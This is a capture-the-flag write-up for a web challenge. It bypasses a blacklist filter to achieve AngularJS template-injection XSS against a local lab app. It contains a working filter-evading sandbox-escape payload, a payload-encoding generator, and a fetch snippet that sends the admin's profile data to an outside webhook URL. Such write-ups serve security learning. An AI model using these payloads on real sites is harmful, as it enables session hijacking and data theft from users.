




# Honey Market - Revenge
+ Author: ScriptKidding
> The challenge is based on the previous `Honey Market` challenge, the underlying source code will be the same with just some minor changes in filtering. So if you did not do the previous challenge, you should complete it first before trying out this one to fully understand the writeup.

## Overview
This challenge focuses on bypassing WAF filters which prevent the XSS payload from successfully executing, while the filter logic in this challenge was ***probably*** close to reality, products like [Akamai](https://www.akamai.com/) or [F5](https://www.f5.com/products/network-firewall) will be much more effective and widely used in modern web application infrastructure. Despite all of that, this is a good way to get started.

## Hints
Since there was no source code provided and the logic of the web application doesn't explicitly review which character or phrase is being filtered out, it's easy to panic and discouraged. This is a common feeling whenever we deal with the `blind` version of most vulnerabilities, which doesn't review enough information to know what is going on behind the scenes. 

Yet, just like other bugs, if you know how to do it correctly and set up a step-by-step process, it can be simpler than you think, the point is to simplify a complex problem instead of solving it the complex way. The steps that you can consider in this challenge are:
1. Which character is forbidden ( special characters most of the time since they are required to trigger XSS )?
2. If you know a character is forbidden, in which way it is forbidden? Is it replaced with something else ? or does it throw an error? Etc...
3. What other limitations that can potentially occur? ( maybe if the payload is too long, it will be discarded or the XSS payloads will need to be in certain formats and use the correct functions since it's in AngularJS ) 
4. Once we know all forbidden characters, what workarounds can we use to achieve the same functionality without it? For example, if the backend blocks the `"` character, maybe we can bypass using `'`? 
5. Still not enough information to bypass? Maybe a Google search or writeups from old CTF and challenges can help shine some light.

## Writeup

### Step 1: Identify forbidden characters

Believe it or not, if a web application decides to block every single special character ( characters which are not `a-z` or `A-Z` or `0-9` ) then it's impossible to carry out XSS or any other vulnerability. But that usually won't happen due to bad UX and user requirements from most websites.

If you started this challenge with the previous solutions for the last challenge, it is gonna be complicated pretty soon. For example, these payloads...
```js
{{constructor.constructor('alert(1)')()}}
{{1+1}}
```
You will notice weird and complicated behaviors, such as why is it getting rid of everything on the previous payload whereas, for the one below, it renders an `11`? does that mean it turns 1 into a string behind the scene? Well, that's why we should start simple first to fully understand the logic. So maybe just first loop through each special character one by one
```
~`!@#$%^&*()_-+={[}]|\"':;>.<,?/>}
~!@#$%^&*()_-={[}]|\:>.<,?/>}
```
And you will notice that the following characters will be gone.
```
'"+;`
```
This may also explain why it renders `11`. To confirm, we can try it again.


Yep, it does not get rid of the `:` but only the others. So what if we try again with `{{12 * 100}}` and see if it renders a number such as `1200`? 


Nope, but now we also know that it filters out the phrase `{{` and `}}`.


### Step 2: Identify filtering behaviors

It is not possible to carry out XSS in AngularJS without the `{{}}` expression, or at least in this case, based on the way the website was coded. But wait, does the backend delete the `{{` phrase ***RECURSIVELY***? That's a `must` behavior to ensure security. Now what I mean is what if we do something like
```
{"{{{ 
```
And since `{{` and `"` will be deleted, it should leave us with just `{{`. And we can do this with `}}` as well.


Great, so it did not do it recursively, I guess we can try to combine the new bypass that we found with simple detection logic such as
```
{"{{{ 12 * 100 }}}"}
```
And yep, it's vulnerable now...


But it's still weird that if we try to combine that trick with the constructor function into something like this:
```
{"{{{constructor.constructor('alert(1)')()}}}"}
```
It would just render an empty search query, and that is another weird ***BEHAVIOR***. Maybe there are some phrases which if they appear, the entire filter would just throw it off? What if we try to get rid of `constructor` and `alert` to see how it is...
```
{"{{{.('(1)')()}}}"}
```


Now if you try to put back `constructor` or `alert`, you will notice that the entire page would just discard it and choose to show the entire list of products instead. But if we try silly things like `constructo` or `alertt`, it will still accept it. This means that both of those words ( `constructor` and `alert` ) are blacklisted as well, just in a different ***behavior***.

So in summary, we got the following knowledge about this challenge.
```
CHARACTER           BEHAVIORS
--------------------------------------------------------
'            -->    will be deleted
"            -->    will be deleted
+            -->    will be deleted
;            -->    will be deleted
`            -->    will be deleted
{{           -->    will be deleted
}}           -->    will be deleted
constructor  -->    will make the search string empty
alert        -->    will make the search string empty  
```
> Even though the code blacklists more than that, the above knowledge was enough to pwn this challenge lol.

### Step 3: Knowing the limitations

So what we need right now is to craft a payload that does not contain the word `constructor` and characters such as `"` or `'`. That might sound tricky, but when in time of need, just Google your way around with older research, posts, challenges, and such. If you did the right research, you might have come across [this one](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/5%20-%20XSS%20in%20Angular.md#advanced-bypassing-xss).

So the payload would be something like

```js
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```

Now we already know how to bypass the `{{` and `}}` limitations, but the payload from above still won't work due to factors such as containing characters such as `;` and `+`.

### Step 4: Bypassing the filters

Now this is why there is a saying that you should understand what you are attacking to be a good pentester, even the payload that you are trying to use... So if anyone tried to copy and paste the payload, it wouldn't work but it may require minor tweaking based on your Javascript knowledge.

First off...

```js
x=767015343;y=50986827;a=x.toString(36)+y.toString(36)
```
If you tested this part in the browser console, you will know that `a` will be a string called `"constructor"`, so what if we replace every single `a` variable reference with the string `"constructor"`? That would work if the filter didn't block the `"` character. but there is a workaround... which is to replace all of the `a` with a statement that results in the string `"constructor"`, such as:
```js
(767015343).toString(36)+(50986827).toString(36)
```
It's just that the backend also blocks `+`. But Javascript's objects are full of surprises, so we can bypass `+` by using the built-in `.concat()` method of any string, which results in something as follows:
```js
(767015343).toString(36).concat((50986827).toString(36))
```
Eventually, despite the length of the payload being bad we will still be presented with something like this.
```
{"{{{((767015343).toString(36).concat((50986827).toString(36))).sub.call.call({}[((767015343).toString(36).concat((50986827).toString(36)))].getOwnPropertyDescriptor(((767015343).toString(36).concat((50986827).toString(36))).sub.__proto__,((767015343).toString(36).concat((50986827).toString(36)))).value,0,toString()[((767015343).toString(36).concat((50986827).toString(36)))].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}}"}
```
And it works!


### Step 5: Capture the Flag

Now we know that it's vulnerable, time to re-pwn the administrators with the same previous payload, yet with just some extra tweaking.

```js
// Reflected XSS PoC
let webhook = `https://webhook.site/4625d87d-847d-4d68-870d-33c822601651`; // Replace this

fetch(`http://127.0.0.1:5000/v1/api/profile/get`)
  .then((e) => e.blob())
  .then((e) => {
    let t = new File([e], `image.jpg`, {
        type: e.type,
      }),
      p = new FormData();
    p.append(`file`, t),
      fetch(webhook, {
        method: `POST`,
        body: p,
      });
  })
  .catch(console.error);
```

After replacing the `YOUR_WEBHOOK_URL` and minifying the entire piece of code. Turn that minified version into a charCode version, you can either do it manually or try the following lines of code or any with similar logic.

```js
// PoC script
// REPLACE YOUR CODE HERE vvv

let payload = "REPLACE_HERE"; // Make sure to minify it first
let charcodePayload = Array.from(payload).map(c => c.charCodeAt(0))
let final_payload = `{"{{{((767015343).toString(36).concat((50986827).toString(36))).sub.call.call({}[((767015343).toString(36).concat((50986827).toString(36)))].getOwnPropertyDescriptor(((767015343).toString(36).concat((50986827).toString(36))).sub.__proto__,((767015343).toString(36).concat((50986827).toString(36)))).value,0,toString()[((767015343).toString(36).concat((50986827).toString(36)))].fromCharCode(${charcodePayload.join()}))()}}}"}`
console.log(final_payload); // <-- Final payload
```

Remember to URL-encode it and then append it to `http://127.0.0.1:5000/products?search=`.



Send the form and watch the magic happen!



Again, use `exiftool` to extract the metadata `Owner Name` to grab the flag, similar to the previous challenge.



+ Flag: `pecan{y0u_g0tt@_$+0p_pwn1ng_m3___p1e@$3?}`